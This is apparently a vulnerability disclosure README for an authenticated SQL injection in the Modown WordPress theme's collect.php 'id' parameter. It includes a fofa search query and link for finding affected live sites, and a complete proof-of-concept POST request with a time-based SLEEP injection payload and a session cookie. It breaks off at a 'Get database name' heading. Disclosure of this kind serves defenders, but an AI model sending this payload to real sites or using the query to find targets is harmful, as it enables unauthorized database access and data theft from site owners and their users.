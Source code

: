 # modown-sql-Injection
In the Wordpress Theme Modown <=9.1 version, there is an SQL injection vulnerability in the "id" parameter of the /action/collect.php file. Attackers can execute arbitrary SQL statements by constructing malicious requests, which may lead to data leakage, data tampering, or other malicious operations.


([Modown Wordpress Theme](https://www.mobantu.com/7191.html) "Click here to download the theme")

There is an SQL injection vulnerability in the "id" parameter of the /action/collect.php file.
The id parameter is directly spliced ​​into the SQL statement without filtering
<img width="1054" alt="image" src="https://github.com/user-attachments/assets/7ef4c7c8-3c6b-4cdf-98b3-aaddf63d55bf" />

Authenticated users (only subscriber permissions are needed) can initiate requests to this interface. Specially constructed id parameters can lead to SQL injection, causing database data leakage and further obtaining system control permissions.

## 1.Affected assets

Wordpress websites using this theme can be searched through the fofa engine through the following statement:

**body="/wp-content/themes/modown/style.css"**

or follow this link
([Affected assets](https://fofa.info/result?qbase64=Ym9keT0iL3dwLWNvbnRlbnQvdGhlbWVzL21vZG93bi9zdHlsZS5jc3Mi) )

You can download the Wordpress Theme Modown 9.1 in this repro
and install it 

![alt text](image-1.png)


### 2.Proof of Concept
Use the logged in user credentials to send the following request,
And Use delayed injection to verify whether the vulnerability exists
```
POST http://127.0.0.1/b2/wp-content/themes/modown/action/collect.php HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_4d5fcc3d94935439d70344b91f1f5e04=yanbochen%7C1752294341%7COZf9zFYCcdstArjuUDuQfze9nNCIVWRqLCEAeF5V54z%7Cc44b7777c014e941d331d38c9b56de20531a6ae3af8afac995a624179e5df07e; wp-settings-time-1=1752121635
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

id=1+AND+(SELECT+1663+FROM+(SELECT(SLEEP(5)))TCke)
```

![alt text](image-2.png)

#### Get database name
